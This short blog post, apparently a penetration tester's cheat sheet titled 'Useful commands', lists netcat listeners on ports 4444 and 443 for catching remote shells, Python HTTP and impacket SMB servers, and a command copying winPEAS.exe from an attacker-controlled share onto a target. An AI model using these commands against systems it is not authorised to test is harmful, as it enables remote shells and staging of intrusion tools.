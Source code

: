```yaml
---
title: Useful commands
date: 2023-03-24 20:55:00 +0800
categories: [Tools]
tags: [Commands]
pin: false
author: GRX6
layout: post
---
```


## Start listener

### For Linux

`sudo nc -nvlp 4444`


### For Windows

`sudo rlwrap nc -nvlp 443`

### Web service

`sudo python3 -m http.server 80`

### SMB service with python impacket

`sudo smbserver.py share . -smb2support`

## Get resource from service

### SMB

`copy \\<local_ip>\share\winPEAS.exe .`
